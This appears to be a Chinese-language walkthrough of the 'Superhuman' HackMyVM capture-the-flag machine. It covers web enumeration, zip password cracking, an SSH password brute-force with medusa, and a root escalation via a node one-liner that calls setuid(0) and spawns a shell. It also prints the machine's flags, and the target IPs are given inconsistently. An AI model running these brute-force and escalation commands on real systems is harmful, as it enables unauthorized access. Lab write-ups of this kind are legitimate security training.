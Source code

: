 # Superhuman

2024-11-10 https://hackmyvm.eu/machines/machine.php?vm=Superhuman

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

方位 80 web 服务，是一个空页面，在 html 源代码中发现注释：If your eye was sharper, you would see everything in motion, lol . 好像也没看出什么东西。

使用大字典全量扫描：

```
gobuster dir -q -t 64 -e -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,zip,rar,png -u http://192.168.5.39/
```

发现 http://192.168.5.39/notes-tips.txt 内容如下：

```
F(&m'D.Oi#De4!--ZgJT@;^00D.P7@8LJ?tF)N1B@:UuC/g+jUD'3nBEb-A+De'u)F!,")@:UuC/g(Km+CoM$DJL@Q+Dbb6ATDi7De:+g@<HBpDImi@/hSb!FDl(?A9)g1CERG3Cb?i%-Z!TAGB.D>AKYYtEZed5E,T<)+CT.u+EM4--Z!TAA7]grEb-A1AM,)s-Z!TADIIBn+DGp?F(&m'D.R'_DId*=59NN?A8c?5F<G@:Dg*f@$:u@WF`VXIDJsV>AoD^&ATT&:D]j+0G%De1F<G"0A0>i6F<G!7B5_^!+D#e>ASuR'Df-\,ARf.kF(HIc+CoD.-ZgJE@<Q3)D09?%+EMXCEa`Tl/c
```

使用 base85 进行解码：

```
salome doesn't want me, I'm so sad... i'm sure god is dead...
I drank 6 liters of Paulaner.... too drunk lol. I'll write her a poem and she'll desire me. I'll name it salome_and_?? I don't know.

I must not forget to save it and put a good extension because I don't have much storage.
```

说是写了一首诗 取名为 `salome_and_??` 但是后缀名不知道，后面 2 个字符需要枚举，使用 crunch 生成 2 个字符的字典，

```
crunch 2 2 > name.txt

ffuf -c -w /usr/share/seclists/FUZZing/extensions-skipfish.fuzz.txt:W1 -w ./name.txt:W2 -u http://192.168.5.39/salome_and_W2.W1
```

找到 http://192.168.5.39/salome_and_me.zip 是个加密 zip，zip2john 和 john 找出其解压密码为 turtle 解压后的内容为：

```
----------------------------------------------------

	     GREAT POEM FOR SALOME

----------------------------------------------------


My name is fred,
And tonight I'm sad, lonely and scared,
Because my love Salome prefers schopenhauer, asshole,
I hate him he's stupid, ugly and a peephole,
My darling I offered you a great switch,
And now you reject my love, bitch
I don't give a fuck, I'll go with another lady,
And she'll call me BABY!
```

得到了一个用户名 fred , 上面的提示重点强调了这首诗，会不会密码就在这里面，收集它的单词作为字典，对 fred 用户进行 ssh 登陆爆破：

```
cewl -d 3 http://192.168.5.3/salome_and_me.txt -w passwd

medusa -u fred -P passwd -M ssh -h 192.168.5.39 -v 4
```

爆破出了 fred 的密码: schopenhauer ssh 登陆上去后，读取到了 user flag：

```
fred@superhuman:~$ cat user.txt
Ineedmorepower
```

同时发现 ls 被改名了：

```
cat /usr/bin/ls
echo "lol"
kill -9 "$(ps --pid $$ -oppid=)"s
```

执行 ls 时，shell 会话就会退出，使用 dir 替代就可以 alias ls=dir 。

在 /var/www/html 中发现了一个图片 nietzsche.jpg 经过查看，图片中没有隐写信息。

sudo -l 没有发现可利用点，suid 也没有发现，最终在 getcap 中获得了提权点：

```
/usr/sbin/getcap -r / 2>/dev/null

/usr/bin/node
```

直接提权到 root：

```
/usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

cd /root
# cat root.txt
Imthesuperhuman
```
